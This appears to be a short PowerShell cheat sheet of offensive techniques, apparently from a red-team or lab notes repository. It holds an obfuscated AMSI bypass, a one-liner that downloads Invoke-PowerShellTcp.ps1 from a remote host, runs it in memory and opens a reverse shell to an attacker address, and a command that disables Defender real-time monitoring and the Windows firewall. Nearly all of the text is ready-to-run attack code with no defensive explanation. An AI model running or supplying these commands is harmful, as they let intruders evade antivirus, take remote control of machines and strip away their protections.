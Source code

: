 ###AMSI Bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE (('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"(${n`ULl},${t`RuE} )
```

###Load `powershell script` without touching disk.
```powershell
powershell.exe iex (iwr http://172.16.100.77/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Power -Reverse -IPAddress 172.16.100.X -Port 443
```


###Bypass Security mechanism. 
```powershell
powershell -ep bypass;Set-MpPreference -DisableRealtimeMonitoring $true ; Set-MpPreference -DisableIOAVProtection $true;Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

